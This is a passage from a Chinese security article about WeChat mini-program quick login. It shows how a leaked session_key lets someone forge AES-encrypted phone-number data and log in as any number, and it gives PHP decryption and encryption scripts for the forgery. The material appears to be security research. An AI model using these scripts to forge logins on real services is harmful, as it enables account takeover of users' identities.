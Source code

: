 - phoneNumber：用户绑定的手机号（国外手机号会有区号）；
- purePhoneNumber：没有区号的手机号；
- watermark：~~顾名思义没有什么用的标记~~ 内含对应小程序的appid和数据加密时的时间戳。

可以看到这些参数都是可以轻易伪造的，并且小程序后端并不会对得到的手机号做二次校验例如短信验证码校验（不然这个快捷登录功能便失去了意义），故只要“session_key”泄露我们便可以伪造登录凭证实现任意手机号登录。<br />那便先来聊一聊小程序数据的加解密吧：微信使用的是AES加密，CBC模式采用PKCS7填充，数据块长度为128位，输出使用base64编码。AES是用于替代DES加密的对称加密算法，对称加密算法最大的特性便是加、解密使用的同是一串密钥，只要获取到key便可加解自如（CBC加密模式下还需要`iv`偏移量参数，一般固定不变或作为变量内容传输）。<br />![](https://cdn.nlark.com/yuque/0/2020/jpeg/520228/1607780895962-6a13b2a0-83d7-4e0e-8609-32ae01342bba.jpeg#averageHue=%23f7f7f7&height=228&id=ZjMHj&originHeight=304&originWidth=830&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=623)<br />上图为微信服务器加密用户开放数据的具体流程，使用的加密key与“session_key”为同一个，偏移量iv则直接与加密后的数据一起明文返回给了小程序后端。有细心的读者可能会看到此流程中有一个用于防止内容被篡改的签名过程，这个签名仅在“获取用户信息”功能中才会生成，在“获取手机号”功能中并无，但这并不是微信的漏洞，因为签名是采用`sha1( rawData + sessionkey )` 方式生成的，若`session_key`泄露则一切验证签名的操作均是无济于事。<br />根据微信小程序对数据加密的方式，我们可以写出如下数据解密脚本：
```php
<?php
echo "请输入SessionKey: ";
$sessionKey = fgets(STDIN);
echo "请输入本次加密IV: ";
$iv = fgets(STDIN);
echo "请输入待解密内容: ";
$encryptedData = fgets(STDIN);
function decryptData( $encryptedData, $iv, $sessionKey )
    {
        $aesIV = base64_decode($iv);
        $aesCipher = base64_decode($encryptedData);
        $aesKey = base64_decode($sessionKey);
        $result = openssl_decrypt($aesCipher, "AES-128-CBC", $aesKey, 1, $aesIV);
        $dataObj = json_decode($result);
        return $result;
    }
$result = decryptData($encryptedData, $iv, $sessionKey);
echo sprintf("最终的解密结果为: %s\n", $result);
```
以及对应的数据加密脚本：
```php
<?php
echo "请输入SessionKey: ";
$sessionKey = fgets(STDIN);
echo "请输入本次解密IV: ";
$iv = fgets(STDIN);
echo "请输入待加密内容: ";
$decryptedData = fgets(STDIN);
function encryptData( $decryptedData, $iv, $sessionKey )
    {
        $aesIV = base64_decode($iv);
        $aesCipher = $decryptedData;
        $aesKey = base64_decode($sessionKey);
        $result = openssl_encrypt($aesCipher, "AES-128-CBC", $aesKey, 0, $aesIV);
        $dataObj = json_decode($result);
        return $result;
    }
$result = encryptData($decryptedData, $iv, $sessionKey);
echo sprintf("最终的加密结果为: %s\n", $result);
```